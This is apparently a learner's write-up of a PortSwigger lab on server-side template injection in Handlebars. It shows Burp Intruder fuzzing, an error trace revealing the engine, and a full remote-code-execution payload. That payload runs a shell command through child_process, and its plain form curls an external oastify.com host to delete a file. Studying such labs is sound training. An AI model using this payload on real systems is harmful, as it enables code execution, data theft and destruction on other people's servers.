

# [Lab: Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)

## Lab

This lab is vulnerable to server-side template injection. To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## Analysis

When I clicked the view details button of the first product, I noticed that the url was quite strange:


## Detect

Using burp's intruder:

- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: fuzzing template injection
- result:


every request causes 500 error responses containing `{{}}`:

```text
<p class=is-warning>/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
            throw new Error(str);
            ^

Error: Parse error on line 1:
{{77*77}}
--^
Expecting &apos;ID&apos;, &apos;STRING&apos;, &apos;NUMBER&apos;, &apos;BOOLEAN&apos;, &apos;UNDEFINED&apos;, &apos;NULL&apos;, &apos;DATA&apos;, got &apos;INVALID&apos;
    at Parser.parseError (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19)
    at Parser.parse (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30)
    at HandlebarsEnvironment.parse (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43)
    at compileInput (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19)
    at ret (/opt/node-v18.12.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18)
    at [eval]:5:13
    at Script.runInThisContext (node:vm:129:12)
    at Object.runInThisContext (node:vm:313:38)
    at node:internal/process/execution:79:19
    at [eval]-wrapper:6:22

Node.js v18.12.1</p>
```

=> handlebars engine of nodejs

## handlebars payloads

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs>

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('curl http://96dqv77vsq70wc2n56jjmqprvi19p7dw.oastify.com -d `rm home/carlos/morale.txt`');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

=> solved
